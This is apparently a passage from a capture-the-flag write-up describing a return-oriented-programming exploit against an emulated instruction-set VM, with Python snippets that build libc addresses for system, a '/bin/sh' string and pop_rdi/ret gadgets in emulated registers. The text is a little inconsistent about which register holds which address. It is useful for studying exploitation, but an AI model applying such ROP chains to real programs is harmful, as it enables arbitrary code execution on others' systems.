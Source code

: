 ![](https://i.imgur.com/PJbPG9S.png)

### Return-Oriented-Programming Attack 

With the base address of libc, a rop attack can be chained for code execution. From the current libc of my machine the address of `libc.sym['system']` was `0x4c330`. This address was written to a chosen register in this case the `A3` register using the following source code snippet. 

> NOTE: Remember the 12-bit signed integer limit on *exec_ADDI*. 


```python
exec_ADDI(rd=A2, rs1=A2, imm=0x4c3),
exec_SLLI(rd=A2, rs1=A2, imm=0x8)# >> 8
exec_ADDI(rd=A2, rs1=A2, imm=0x30)
```
With the address of `libc.sym['system']` in one of the registers, this address can be added to the libc_base address and saved to a different 'register'. This can be done using the *exec_ADD* instruction that add's two values from 'registers'. 

```python
exec_ADD(rd=A3, rs1=A1, rs2=A2)
```

![](https://i.imgur.com/M6E1Ngz.png)

As shown above, the address of system has been written to the `A3` register. The rest of the addresses *pop_rdi*, *ret*, and the address of system were written to the `A4`, `A5` and `A6` respectively, with their absolute addresses written to `S2`, `S3` and `S4` respectively from the following python code snippet: 

```python

exec_ADDI(rd=A4, rs1=A4, imm=0x196)
exec_SLLI(rd=A4, rs1=A4, imm=0xc)
exec_ADDI(rd=A4, rs1=A4, imm=0x031)

#pop_rdi
exec_ADDI(rd=A5, rs1=A5, imm=0x277)
exec_SLLI(rd=A5, rs1=A5, imm=0x8)
exec_ADDI(rd=A5, rs1=A5, imm=0x25)

#ret
exec_ADDI(rd=A6, rs1=A6, imm=0x270)
exec_SLLI(rd=A6, rs1=A6, imm=0x8)
exec_ADDI(rd=A6, rs1=A6, imm=0xc2)
```

These absolute libc addresses of the above gadgets can further be written into the `S2`, `S3` and `S4` register from the following python code snippet:

```py

exec_ADD(rd=S2, rs1=A1, rs2=A4), # binsh
exec_ADD(rd=S3, rs1=A1, rs2=A5), # pop_rdi
exec_ADD(rd=S4, rs1=A1, rs2=A6), # ret

```
